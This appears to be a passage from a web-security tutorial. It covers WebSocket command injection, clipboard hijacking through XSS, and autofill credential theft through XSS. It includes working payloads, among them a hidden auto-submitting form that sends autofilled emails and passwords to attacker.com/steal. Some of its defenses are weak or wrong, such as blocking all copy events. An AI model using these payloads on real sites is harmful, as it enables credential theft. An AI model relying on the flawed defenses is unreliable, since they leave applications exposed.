 🔥 Advanced: Injecting WebSocket Commands

If WebSocket messages are not authenticated, an attacker can send fake commands:

<script>
    const ws = new WebSocket("wss://secure-app.com/socket");
    ws.onopen = () => {
        ws.send(JSON.stringify({ action: "stealData", user: "admin" }));
    };
</script>

✅ How to Defend Against This?

    Authenticate all WebSocket messages (Use JWT or session-based tokens)

const ws = new WebSocket("wss://secure-app.com/socket?token=secureToken123");

Validate WebSocket messages before executing commands

    ws.onmessage = (event) => {
        const data = JSON.parse(event.data);
        if (!data || !data.action) return;
    };

⚡ 3️⃣ Advanced Browser Exploits: XSS + Clipboard Hijacking

Even if a website does not allow script execution, XSS can still be exploited to steal clipboard data.
🔴 Example: Clipboard Hijacking via XSS

Inject this payload into the site:

<script>
    document.addEventListener("copy", function (e) {
        e.clipboardData.setData("text/plain", "Hacked! Visit attacker.com");
        e.preventDefault();
    });
</script>

💣 What This Does:

    Modifies clipboard contents when the user copies text.
    If the user pastes it into a terminal, they may execute a malicious command.

✅ How to Defend Against This?

    Disable JavaScript clipboard manipulation

document.addEventListener("copy", (e) => e.preventDefault());

Restrict clipboard access with CSP

    Content-Security-Policy: script-src 'self'

⚡ 4️⃣ XSS via Browser Autofill Stealing

Modern browsers autofill passwords, addresses, and credit card info, and attackers can steal this data using hidden input fields.
🔴 Example: Autofill Hijacking via XSS

<form action="https://attacker.com/steal" method="POST">
    <input type="text" name="email" autocomplete="email">
    <input type="password" name="password" autocomplete="current-password">
    <input type="submit">
</form>
<script>
    setTimeout(() => document.querySelector("form").submit(), 3000);
</script>
